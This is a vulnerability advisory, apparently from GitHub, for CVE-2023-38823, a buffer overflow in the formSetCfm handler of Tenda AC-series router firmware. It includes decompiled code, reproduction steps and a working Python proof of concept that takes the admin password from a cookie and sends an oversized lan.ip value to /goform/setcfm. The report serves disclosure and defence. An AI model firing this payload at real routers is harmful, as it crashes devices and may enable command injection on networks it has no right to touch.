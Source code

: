# Buffer Overflow in formSetCfm

## Affected model(s) and firmware/software version(s)

Product: Tenda - AC19 v.1.0, AC18, AC9 v.1.0, AC6 v.2.0 and v.1.0

Version: V15.03.05.19(6318)

Downloaded from: https://www.tenda.com.cn/download/detail-2683.html

Binary: `/bin/httpd`

## Vulnerability description and potential impacts

In binary, there is a function called `formSetCfm` which allows any user to set value in any length of any keys in the following code:

```c
    do {
        sprintf((char *)&uStack_138,"name%d",local_14);
        local_1c = (char *)FUN_0002ba8c(param_1,&uStack_138,&DAT_000df880);
        if (*local_1c == '\0') break;
        sprintf((char *)&uStack_238,"value%d",local_14);
        local_18 = FUN_0002ba8c(param_1,&uStack_238,&DAT_000df880);
        printf("name:%s\tvalue:%s\n",local_1c,local_18);
        SetValue(local_1c,local_18);
        local_14 = local_14 + 1;
    } while (local_14 < 0x15);
```

We can set a specific key (ex: `lan.ip`) with a large bytes of value and when the program calls `GetValue` with that specific key `lan.ip`, it will read to a buffer and hence, cause overflow. In addition, it can also cause command injection.

## Step-by-step instructions to reproduce the issue

- Step 1: Run router
- Step 2: Request the index.html to get the password from cookie
- Step 3: Craft a malicious payload
- Step 4: Send payload from step 3 (in body of packet) and password from step 2 (in header cookie) to url `http://<ip>/goform/setcfm` with POST requests

## Proof-of-concept (PoC) or exploit code for the issue

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.0.1/'

# Get password
url = url_base + 'index.html'
res = s.get(url)
password = 'password=' + s.cookies.get_dict()['password'] + '; bLanguage=cn'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'name0': 'lan.ip', 
        'value0': b'a'*0x500, 
        'funcname':'changelanip'
}
headers = {
    'Cookie': password,
}

res = re.post(url, data=data, headers=headers)
```

![](images/poc.gif)

## Any suggested solutions to fix this

Limit number of bytes read to buffer in function `GetValue`

## Severity (e.g. CVSS v3.x)

DOS, Command injection

## Acknowledgement

Nguyen Huu Tri, Cao Ngoc Quy and Nguyen Le Quoc Anh of bl4ckh0l3 from Galaxy One

## Assigned CVE

[CVE-2023-38823](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-38823)